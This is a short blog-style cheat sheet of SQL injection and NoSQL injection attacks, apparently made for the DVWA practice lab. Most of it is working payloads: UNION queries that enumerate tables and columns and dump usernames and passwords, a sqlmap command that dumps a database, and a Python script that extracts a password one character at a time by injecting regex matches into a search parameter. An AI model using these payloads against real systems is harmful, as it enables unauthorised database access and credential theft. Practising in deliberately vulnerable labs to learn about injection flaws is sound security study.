 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>shitscript</h4>


<textarea>import requests
  bruten = '1234567890abcdef-'
  xx=0
  x = bruten[xx]
  keylist = ""
  keystr = keylist + x
  #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
  URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
  r = requests.get(URL)
  s = (len(r.content))
  
  while True:
      try:
          for i in range(0, 17):
              
              x = bruten[xx]
              keystr = keylist + x
              #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
              URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
              print(URL)
              print(keystr)
              #print(keylist)
              r = requests.get(URL)
              s = (len(r.content))
              #print(s)
              if s == 1614:
                  keystr = keylist + x
                  keystr = keystr
                  keylist = keylist + x
                  #print(keylist)
                  xx=0
                  continue
  
              else:
                  #keylist = ""
                  keystr = keylist + x
                  keystr = keystr
                  xx+=1
                  continue
      except:
          print("crackarooniedddddd")
          print('password is ' + keystr[:-1])
          break  </textarea>